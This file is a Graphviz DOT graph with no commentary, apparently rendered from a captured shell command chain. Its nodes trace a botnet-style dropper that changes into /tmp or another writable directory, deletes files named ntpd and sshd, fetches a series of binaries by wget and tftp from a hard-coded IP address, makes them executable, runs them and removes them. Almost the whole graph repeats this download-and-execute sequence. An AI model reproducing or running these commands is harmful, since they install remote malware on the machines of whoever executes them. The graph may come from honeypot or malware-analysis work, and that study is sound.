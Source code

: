 digraph {
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 10 [label="||,"];
10 [label="rm -rf ntpd "];
10 -> 12 [label=";,"];
12 [label="wget http://208.67.1.84/shittyntpd "];
12 -> 14 [label=";,"];
14 [label="tftp -r shittyntpd -g 208.67.1.84 "];
14 -> 16 [label="||,"];
16 [label="chmod 777 shittyntpd "];
16 -> 18 [label=";,"];
18 [label="./shittyntpd "];
18 -> 20 [label=";,"];
20 [label="rm -rf shittyntpd "];
20 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 34 [label=";,"];
34 [label="wget http://208.67.1.84/shittysshd "];
34 -> 102 [label=";,"];
102 [label="tftp -r shittysshd -g 208.67.1.84 "];
102 -> 38 [label="||,"];
38 [label="chmod 777 shittysshd "];
38 -> 40 [label=";,"];
40 [label="./shittysshd "];
40 -> 42 [label=";,"];
42 [label="rm -rf shittysshd "];
42 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 56 [label=";,"];
56 [label="wget http://208.67.1.84/brucopenssh "];
56 -> 58 [label=";,"];
58 [label="tftp -r brucopenssh -g 208.67.1.84 "];
58 -> 60 [label="||,"];
60 [label="chmod 777 brucopenssh "];
60 -> 62 [label=";,"];
62 [label="./brucopenssh "];
62 -> 64 [label=";,"];
64 [label="rm -rf brucopenssh "];
64 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 78 [label=";,"];
78 [label="wget http://208.67.1.84/shittybash "];
78 -> 80 [label=";,"];
80 [label="tftp -r shittybash -g 208.67.1.84 "];
80 -> 82 [label="||,"];
82 [label="chmod 777 shittybash "];
82 -> 84 [label=";,"];
84 [label="./shittybash "];
84 -> 86 [label=";,"];
86 [label="rm -rf shittybash "];
86 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 100 [label=";,"];
100 [label="wget http://208.67.1.84/shittytftp "];
100 -> 102 [label=";,"];
102 [label="tftp -r shittysshd -g 208.67.1.84 "];
102 -> 104 [label="||,"];
104 [label="chmod 777 shittytftp "];
104 -> 106 [label=";,"];
106 [label="./shittytftp "];
106 -> 108 [label=";,"];
108 [label="rm -rf shittytftp "];
108 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 122 [label=";,"];
122 [label="wget http://208.67.1.84/shittywget "];
122 -> 124 [label=";,"];
124 [label="tftp -r shittywget -g 208.67.1.84 "];
124 -> 126 [label="||,"];
126 [label="chmod 777 shittywget "];
126 -> 128 [label=";,"];
128 [label="./shittywget "];
128 -> 130 [label=";,"];
130 [label="rm -rf shittywget "];
130 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 144 [label=";,"];
144 [label="wget http://208.67.1.84/shittycron "];
144 -> 146 [label=";,"];
146 [label="tftp -r shittycron -g 208.67.1.84 "];
146 -> 148 [label="||,"];
148 [label="chmod 777 shittycron "];
148 -> 150 [label=";,"];
150 [label="./shittycron "];
150 -> 152 [label=";,"];
152 [label="rm -rf shittycron "];
152 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 166 [label=";,"];
166 [label="wget http://208.67.1.84/shittyftp "];
166 -> 168 [label=";,"];
168 [label="tftp -r shittyftp -g 208.67.1.84 "];
168 -> 170 [label="||,"];
170 [label="chmod 777 shittyftp "];
170 -> 172 [label=";,"];
172 [label="./shittyftp "];
172 -> 174 [label=";,"];
174 [label="rm -rf shittyftp "];
174 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 188 [label=";,"];
188 [label="wget http://208.67.1.84/shittypftp "];
188 -> 190 [label=";,"];
190 [label="tftp -r shittypftp -g 208.67.1.84 "];
190 -> 192 [label="||,"];
192 [label="chmod 777 shittypftp "];
192 -> 194 [label=";,"];
194 [label="./shittypftp "];
194 -> 196 [label=";,"];
196 [label="rm -rf shittypftp "];
196 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 210 [label=";,"];
210 [label="wget http://208.67.1.84/shittysh "];
210 -> 212 [label=";,"];
212 [label="tftp -r shittysh -g 208.67.1.84 "];
212 -> 214 [label="||,"];
214 [label="chmod 777 shittysh "];
214 -> 216 [label=";,"];
216 [label="./shittysh "];
216 -> 218 [label=";,"];
218 [label="rm -rf shittysh "];
218 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 232 [label=";,"];
232 [label="wget http://208.67.1.84/shittyshit "];
232 -> 234 [label=";,"];
234 [label="tftp -r shittyshit -g 208.67.1.84 "];
234 -> 236 [label="||,"];
236 [label="chmod 777 shittyshit "];
236 -> 238 [label=";,"];
238 [label="./shittyshit "];
238 -> 240 [label=";,"];
240 [label="rm -rf shittyshit "];
240 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="rm -rf sshd "];
252 -> 254 [label=";,"];
254 [label="wget http://208.67.1.84/shittyapache2 "];
254 -> 256 [label=";,"];
256 [label="tftp -r shittyapache2 -g 208.67.1.84 "];
256 -> 258 [label="||,"];
258 [label="chmod 777 shittyapache2 "];
258 -> 260 [label=";,"];
260 [label="./shittyapache2 "];
260 -> 261 [label=";,"];
}
